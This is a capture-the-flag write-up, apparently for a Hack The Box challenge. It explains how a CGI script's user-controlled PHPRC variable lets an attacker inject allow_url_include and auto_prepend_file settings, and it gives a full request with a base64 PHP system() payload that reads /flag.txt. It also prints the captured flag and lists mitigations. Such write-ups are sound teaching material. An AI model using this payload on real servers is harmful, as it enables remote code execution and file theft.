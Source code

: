 Write-Up for the Exploit Script:

# Lyra's Tavern Exploit Explanation

## Vulnerability Overview

The Lyra's Tavern application contains a critical vulnerability in the `app.cgi` script that allows an attacker to:

1. Override PHP configuration settings by controlling the PHPRC environment variable
2. Execute arbitrary PHP code via the `auto_prepend_file` directive
3. Read sensitive files from the server, including the flag file

## How the Vulnerability Works

1. The `app.cgi` script accepts a `PHPRC` parameter from user input:
   ```php
   $phprc = isset($_REQUEST['PHPRC']) ? $_REQUEST['PHPRC'] : null;
   ```

2. It then sets this as an environment variable that controls PHP's configuration:
   ```php
   putenv("PHPRC=" . $phprc);
   ```

3. By setting `PHPRC=/dev/fd/0`, we can make PHP read its configuration from standard input
   - `/dev/fd/0` is a special file that corresponds to stdin

4. The script also accepts a `data` parameter that gets passed to PHP via stdin:
   ```php
   $cmd = "printf \"%b\" " . escapeshellarg($data);
   $cmd = $cmd . " | php /www/application/config.php";
   ```

5. We can inject PHP configuration directives through this `data` parameter:
   - `allow_url_include=1` - Enables inclusion of remote files via URL
   - `auto_prepend_file=data://...` - Makes PHP execute our code before any script

## The Exploit Step by Step

1. **Create a PHP payload** that will read the flag file:
   ```php
   <?php system("cat /flag.txt"); ?>
   ```

2. **Encode the payload as a base64 data URL**:
   ```
   data://text/plain;base64,PD9waHAgc3lzdGVtKCJjYXQgL2ZsYWcudHh0Iik7ID8+
   ```

3. **Format the request** with:
   - URL: `http://<target>/cgi-bin/app.cgi?PHPRC=/dev/fd/0`
   - POST data: `data=allow_url_include%3D1%0Aauto_prepend_file%3D%22data%3A%2F%2Ftext%2Fplain%3Bbase64%2CPD9waHAgc3lzdGVtKCJjYXQgL2ZsYWcudHh0Iik7ID8%2B%22`

4. When this request is processed:
   - PHP reads its configuration from our provided data
   - The `auto_prepend_file` directive makes it execute our payload
   - Our payload runs `cat /flag.txt` and outputs the flag
  
```
HTB{N0W_Y0U_S33_M3_N0W_Y0U_D0NT!@_672eda5ab455a16bb2248bba717144f3}
```

## Why This Works

The vulnerability exists because:

1. The application allows user control of the `PHPRC` environment variable
2. It then executes PHP with this configuration
3. The `/dev/fd/0` trick allows us to supply both the configuration and the execution data in a single request
4. PHP's `auto_prepend_file` directive lets us execute code before any script runs

## Mitigation

To prevent this vulnerability:

1. Never allow users to control the `PHPRC` environment variable
2. Use proper input validation for all user-supplied data
3. Disable dangerous PHP directives like `allow_url_include`
4. Run PHP with restricted permissions
5. Implement proper filesystem access controls
